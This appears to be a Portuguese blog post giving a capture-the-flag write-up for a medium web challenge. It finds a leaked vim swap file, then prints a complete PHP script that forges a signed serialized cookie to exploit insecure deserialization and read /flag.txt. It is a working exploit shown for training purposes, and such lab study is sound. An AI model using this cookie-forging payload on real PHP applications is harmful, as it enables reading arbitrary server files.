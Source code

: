 ```yaml
---
layout: post
title: "Vazamento de Segurança"
date: 2024-10-20
categories: [Alquymia, CTF, deserialization]
tags: [Alquymia, CTF, deserialization, deserialization insecure, PHP]
---
```


**Dificuldade:** Médio

Pontos: 10

- **Dica - 1 Ponto**
    
    **Explore arquivos temporários que podem ser deixados para trás. Às vezes, eles revelam segredos ocultos.**
    

## Descrição do Desafio

Você foi chamado para investigar um possível incidente de segurança em um sistema web. Durante a análise, foi identificado que um arquivo confidencial no servidor pode ter sido acessado indevidamente.

## Reconhecimento

A investigação foi iniciada utilizando o **dirsearch** para explorar a estrutura de diretórios do servidor e identificar arquivos sensíveis.

```bash
dirsearch -u http://ctf-web02.alquymia.com.br/
```

Após alguns segundos, consegui localizar o arquivo **.index.php.swp**, que é um arquivo temporário que pode conter dados sensíveis.

## Recuperação do Arquivo

O arquivo **.index.php.swp** pode ser recuperado com a seguintes comandos

```bash
wget http://ctf-web02.alquymia.com.br/.index.php.swp
vim -r index.php
[Enter]
```

## Exploração da Vulnerabilidade

Após recuperar o arquivo **.index.php.swp**, identifiquei um código vulnerável à deserialização insegura. A classe **FileReader** é responsável por ler o conteúdo de um arquivo, e o seu destrutor (`__destruct`) é chamado quando a instância da classe é destruída, revelando o conteúdo do arquivo especificado na propriedade **$filename**.

Aqui está o trecho relevante do código:

```php
class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

```

A vulnerabilidade permite que um atacante manipule a propriedade **$filename** ao forjar um token. Para explorar isso, criei um token com um payload que define a propriedade **$filename** para **/flag.txt**

### Criação do Token

Utilizando as funções de criação e decodificação do cookie, podemos forjar um token válido. O código PHP a seguir cria o payload necessário para acessar a **flag.tx**t:

```php
<?php

class FileReader {
    public $filename;

    public function __destruct() {
        if ($this->filename) {
            echo file_get_contents($this->filename);
        }
    }
}

$key = 'my_secret_key_1234'; 

function createSecureCookie($data, $key) {
    $serialized_data = serialize($data); 
    $encoded_data = base64_encode($serialized_data); 
    $hmac = hash_hmac('sha256', $encoded_data, $key);
    return base64_encode($encoded_data . '::' . $hmac); 
}

// Criar o payload
$data = new FileReader();
$data->filename = '/flag.txt';
$token = createSecureCookie($data, $key);

// Encodar o token em URL
$encoded_token = urlencode($token);

// Exibir o token encodado
echo $encoded_token."\n\n";
?>
```

### Executando o Script

1. O código acima deve ser salvo em um arquivo chamado `create_token.php`.
2. O script pode ser executado no terminal utilizando o PHP:
    
    ```bash
    php create_token.php
    ```
    
3. O script exibirá um token

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/46362ba8-99b2-4e2f-9bb2-11f74ef0b082/image.png?table=block&id=11d08a9d-4762-448e-b488-2a903de075d9&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729562400000&signature=dhimjPfCIzonB1KJijs4aJDm3Wl8cADi8BM6Hiyvlxs&downloadName=image.png)

### Usando o Token

O token deve ser definido como um cookie **user_data** e acessado na página que processa esse cookie. O destrutor da classe **FileReader** será invocado, permitindo que o conteúdo de **/flag.txt** seja exibido.

Para definir o cookie no navegador, deve-se acessar o console de desenvolvimento e navegar até a aba "Application". 
A seguir, o token pode ser adicionado na seção de cookies.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/5412bbfb-1440-4bb6-8dc4-715042cc6601/image.png?table=block&id=fad3e32a-ded3-49db-b5af-0ad5eb0cf11b&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729562400000&signature=1Xyn-zSqzGMrQIEelbfxwIQO-PWUvm4PJRW2AHWN7QM&downloadName=image.png)

Após definir o cookie, ao acessar a página correspondente, o conteúdo da **/flag.txt** aparecerá no final da fonte da página.

![image.png](https://file.notion.so/f/f/741683d4-87d3-4e6a-b984-48bdf6870242/1416fb9c-ae7d-4635-8776-d8d391559285/image.png?table=block&id=27456782-b89b-4253-a44d-0fbaa886f934&spaceId=741683d4-87d3-4e6a-b984-48bdf6870242&expirationTimestamp=1729562400000&signature=vjd2qD81Slf_V1iRg2daD7QChLhOLgX6CooIzofIOkg&downloadName=image.png)
